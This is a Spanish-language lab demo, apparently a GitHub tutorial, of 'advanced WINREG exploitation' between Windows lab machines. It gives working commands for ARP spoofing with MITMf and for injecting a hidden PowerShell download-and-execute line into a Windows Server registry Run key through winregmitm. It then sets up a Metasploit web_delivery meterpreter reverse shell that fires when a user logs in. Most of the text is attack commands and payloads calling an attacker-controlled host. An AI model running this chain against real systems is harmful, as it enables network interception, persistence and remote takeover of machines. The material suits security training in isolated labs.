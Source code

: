 # DEMO (Explotación avanzada WINREG)

Ha parte de hacerlo con la herramienta de `polymorph` se puede hacer con 2 herramientas del siguiente repositorio:

URL = [mitmf.py GitHub](https://github.com/byt3bl33d3r/MITMf)

URL = [winregmitm.py GitHub](https://github.com/shramos/winregmitm/blob/master/winregmitm.py)

Lo que primero tendremos que hacer sera tener las 2 maquinas `windows` activas y en el `kali` poner lo siguiente:

```shell
python mitmf.py -i eth0 --spoof --arp --gateway 192.168.5.138 --target 192.168.5.137
```

De la maquina `Windows 10` a la maquina `Windows Server`, con esto lo que hacemos es un `ARP Spoofing` para estar en medio de la comunicacion.

Ahora lo que tendra que hacer el usuario es conectarse desde la maquina `Windows 10` abriendo con `Windows + R` el `regedit` y conectarse a registro de red de la maquina `Windows Server` metiendo su IP, todo esto con la red envenenada, meteremos las credenciales de red de la maquina `Windows Server` y ya estariamos conectados con los registros de la maquina `Windows Server`.

Ahora en `kali` iniciamos la herramienta `winregmitm`:

```shell
python winregmitm.py
```

Ahora esto lo que hara sera hacer `Snifing` de todas las claves y todo lo que se esta accediendo desde la maquina `Windows 10` a la maquina `Windows Server` y el `payload` que vamos a utilizar es el siguiente:

> payload.sh

```powershell
python winregmitm.py --key "S-1-5-21-3651010579-3185777426-3905642800-1001\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" --value "powershell -W Hidden -C iex (new-object net.webclient).downloadstring('http://192.168.5.178:7777/payload')"
```

Por lo que vamos a parar la anterior herramienta de `winregmitm` y vamos a ejecutar este `payload`:

```shell
./payload.sh
```

Y ahora por ejemplo desde la maquina `Windows 10` pondremos un valor algun registro cualquiera, como por ejemplo a `HKEY_USERS` -> `S-1-5-21-365...` -> `AppEvents` -> doble click en el `(Default)` y ponemos el valor que queramos por ejemplo `testvalue` -> `Ok`

Con esto si nos vamos a la clave `Run` del registro en la maquina de `Windows Server` lo que habra como valor sera la siguiente linea:

```powershell
powershell -W Hidden -C iex (new-object net.webclient).downloadstring('http://192.168.5.178:7777/payload')
```

La consecuencias de esto es que cuando se reinicie la maquina de `Windows Server` se va a ejecutar ese codigo automaticamente nos dara una shell a nosotros estando a la escucha con `netcat` o `metasploit`, en mi caso sera `metasploit` de la siguiente forma:

```shell
msfconsole -q
```

```shell
use exploit/multi/script/web_delivery
```

```shell
set payload windows/meterpreter/reverse_tcp
set uripath /
set LHOST 192.168.5.178
set target 2
```

```shell
exploit
```

Y solo tendremos que esperar a que el usuario inicie sesion para que se ejecute ese `payload` y nos de la `reverse shell`.

Cuando lo haga se creara la shell desde `metasploit` creando una sesion, pondremos `sessions 1` o el numero de sesion que sea y ya tendremos un meterpreter con dicha maquina.
